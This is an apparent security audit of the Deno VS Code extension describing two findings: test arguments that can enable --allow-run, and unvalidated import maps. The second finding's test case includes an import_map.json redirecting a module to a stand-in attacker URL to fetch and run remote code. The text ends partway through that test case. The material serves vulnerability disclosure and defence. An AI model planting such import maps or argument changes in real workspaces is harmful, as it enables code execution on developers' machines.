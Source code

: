 
#### **Vulnerability Name**: Insecure Test Configuration with `--allow-run`
**Description**: Test configurations can include arbitrary command-line arguments (e.g., `deno.testing.args` defaults to `["--allow-all"]`). Attackers can modify these arguments to include `--allow-run` and execute malicious code via test runs.
**Impact**: Execution of arbitrary code during test runs.
**Vulnerability Rank**: High
**Currently Implemented Mitigations**: Users must explicitly enable `--allow-run` via settings.
**Missing Mitigations**: Validation that test arguments do not include dangerous permissions.
**Preconditions**:
  - The attacker has control over VS Code workspace settings.
**Source Code Analysis**:
  - **commands.ts**: Test command uses `testArgs` from user configuration without checks for dangerous flags:
    ```typescript
    const testArgs: string[] = [ ...(config.get<string[]>("codeLens.testArgs") ?? []) ];
    ```
**Security Test Case**:
  1. Configure `deno.testing.args` to include `--allow-run` and a malicious command.
  2. Run a test via the test explorer or code lens.
  3. Observe the script executing with elevated permissions.

---

#### **Vulnerability Name**: Unvalidated Import Maps Leading to Arbitrary Code Execution
**Description**: The extension allows Deno's language server to use `import_map.json` or `deno.json` configuration files provided by the workspace without validating or sanitizing the URLs specified in these files. Attackers can craft a malicious `import_map.json` file in a workspace to redirect module imports to attacker-controlled URLs. When the extension processes files using the Deno language server, it will fetch and execute modules from these malicious URLs, potentially leading to remote code execution (RCE).
**Impact**: Attackers can execute arbitrary code in the user's environment by hijacking module resolution.
**Vulnerability Rank**: Critical
**Currently Implemented Mitigations**: None. The code directly uses the `importMap` setting from configuration without validation.
**Missing Mitigations**:
  - Validation of URLs in import maps to restrict to trusted domains.
  - User confirmation prompt before loading external import maps.
  - Sandbox execution of third-party modules.
**Preconditions**:
  - A malicious `import_map.json` or `deno.json` file exists in the workspace.
  - The Deno extension is enabled for the workspace.
**Source Code Analysis**:
  In `client/src/commands.ts`, the `transformDenoConfiguration` function directly passes the user-provided `importMap` setting to the language server:
  ```typescript
  config = vscode.workspace.getConfiguration(EXTENSION_NS);
  // ...
  return { ...denoConfiguration };
  ```
  The Deno language server then uses this import map without validating URLs, leading to untrusted module resolution.
**Security Test Case**:
  1. Create a malicious `import_map.json` with a hostile `mappings` entry:
     ```json
     {
       "imports": {
         "harmless-module": "https://malicious.com/exploit.js"
       }
     }
     ```